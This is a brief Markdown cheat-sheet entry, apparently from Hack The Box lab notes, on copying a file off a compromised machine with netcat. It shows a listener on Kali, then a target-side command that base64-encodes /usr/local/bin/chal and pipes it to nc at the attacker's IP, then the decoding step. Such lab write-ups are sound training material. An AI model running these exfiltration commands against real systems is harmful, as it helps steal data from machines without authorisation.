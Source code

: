 # Netcat Redirect

If netcat is on the box you can use it to copy data back to Kali.

Set it listening on Kali first, with a redirect to file you want to save received data to:

```bash
root@kali:~/htb/sneaky# nc -lnvp 1234 > chal.b64
listening on [any] 1234 ...
```

On the box convert file to base64 the send to netcat with Kali IP and port:

```bash
thrasivoulos@Sneaky:~$ base64 /usr/local/bin/chal | nc 10.10.14.14 1234
```

Now back on Kali we need to decode it:

```bash
root@kali:~/htb/sneaky# base64 -d chal.b64 > chal
```
